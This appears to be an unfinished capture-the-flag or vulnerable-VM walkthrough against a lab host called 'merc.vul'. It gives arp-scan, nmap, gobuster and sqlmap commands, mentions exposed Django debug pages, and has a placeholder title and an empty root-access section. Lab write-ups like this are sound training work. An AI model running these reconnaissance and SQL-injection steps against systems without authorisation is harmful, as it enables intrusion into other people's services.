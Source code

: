 # TITLE
'url'

## Discovery

### Tool used: arp-scan
<br>

```
arp-scan --interface=ens33 --localnet

Interface: ens33, type: EN10MB, MAC: 00:0c:29:01:a5:1c, IPv4: 172.16.250.97
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)

172.16.250.91	08:00:27:dc:40:fb	PCS Systemtechnik GmbH
```

## Port scan

### Tool used: nmap
<br>

```
nmap -T4 -sV -p22,8080 merc.vul

Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-13 17:00 CDT
Nmap scan report for merc.vul (172.16.250.91)
Host is up (0.00055s latency).
```

## HTTP enumeration

### Tool used: gobuster
<br>

```
gobuster dir --url http://merc.vul:8080 --wordlist /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
```

Browsing the URL in the browser didn't reveal anything, until we added text to the end, such as a * or /admin. This revealed an error page indicating Django was installed and DEBUG mode was enabled.<br><br>

![browsing the url](./docs/files/file.png)

NOTES AND STEPS:<br><br>

## SQL injection
### You can either manually try strings, or use a tool like SQLMap
<br>

### Tool used: SQLMap
<br>

```
sqlmap -u http://merc.vul:8080/mercuryfacts/1 --answers="follow=Y" --batch

      ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.3#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
```

---

### Tool used: none / browser URL strings

## SSH and root access

### Tool used: msfconsole
<br>